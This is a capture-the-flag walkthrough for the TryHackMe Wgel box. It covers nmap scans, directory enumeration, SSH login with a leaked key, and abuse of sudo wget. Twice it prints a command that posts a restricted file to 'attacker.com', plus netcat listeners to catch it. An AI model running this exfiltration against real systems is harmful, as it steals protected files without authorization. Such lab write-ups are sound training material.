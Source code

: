 # TryHackMe - Wgel CTF Writeup

## Tools used:

1. Nmap
2. Dirsearch
3. Gobuster
4. GTFOBins

## Scanning and Enumeration

NOTE: The machine's IP will be represented as **"10.10.x.x"** due to different IP's given by TryHackMe

Assuming you already have the machine's IP, run 4 Nmap scans to scan and enumerate the box

### Half TCP Scan

```
nmap -n -sS -vv -T5 -p 1-20000 10.10.x.x -oN Half-TCP.txt
```

### Version scan / Banner grabbing

```
nmap -sV --version-all -vv -T5 -p 22,80 10.10.x.x -oN Version-scan.txt
```

### Aggressive scan

```
nmap -A -vv -T5 10.10.x.x -oN Aggressive-scan.txt
```

### Nmap NSE vulnerability scan

```
nmap --script vuln -p 80 10.10.x.x -oN nse-vuln.txt
```

The main interest here is the Half TCP and NSE scan. From the Half TCP scan, you'd see how many ports are open and for the NSE scan you'd see kind of an "outline" on what this port/service is vulnerable to.

From this point on, there isn't that much to explore here on the outside of the box.  
Shift your focus to the website hosted on port 80.

## Enumeration of the website

After visiting the website, you'd see a Apache2 Ubuntu default page and ignore the page and immediately enumerate the website.

The choice is up to you if you want to use Dirsearch or Gobuster but I personally use Gobuster but nonetheless here are the commands.

### Dirsearch

```
dirsearch -u http://10.10.x.x/ -t 120
```

### Gobuster

```
gobuster dir -u http://10.10.x.x/ -x /path/to/wordlist/ -X /path/to/extension/wordlist -t 120
```

For people that are gonna ask why I have my extensions in a file, it's much better and I can make sure I don't miss out any file extension when enumerating.

After enumerating, the only accessible directory that you should see there is: http://10.10.x.x/sitemap/  
Go to that directory and you'll see a sort of a web page.

Going back to the first step, you should enumerate the website using either Dirsearch and Gobuster to find accessible files and directories.

While running Dirsearch or Gobuster, inspect the HTML source code of http://10.10.x.x/sitemap/ as it contains a username.  
After Dirsearch and Gobuster scans, you should see a /.ssh/ file, save it and login to SSH.

## SSH login and Privilege Escalation

After logging in to SSH, immediately extract the user flag on the /Documents/ directory if I'm not mistaken.  

For Privilege Escalation, if you run the command:

```
sudo -l
```

You'd see that the user is allowed to run wget with elevated privileges, to exploit this run the command below: 

```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
What the exploit means is that the **"--post-file"** option sends the contents of the file to the listening IP and port using the HTTP Post request.

Replace the URL variable with your listening IP and port, the LFILE with the file to read then enter the command line by line to the terminal. DON'T COPY AND PASTE IT STRAIGHT FROM GTFOBINS TO THE TERMINAL.

Before hitting "Enter", setup a listener on your Kali Linux Box.  
Use either of the two:

```
nc -lvnp 9999
```

```
ncat -lvnp 9999
```

After setting up the listeners, hit enter and you should see the root flag sent to your box.

## Conclusion

If there is anything that we both have learned today, it's that we can read and send the contents of a file to our box using the HTTP Post request by using the commmand below:

```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

We did not escalate our privileges, however, we did take advantage/abuse SUID privileges to read the contents of restricted files.

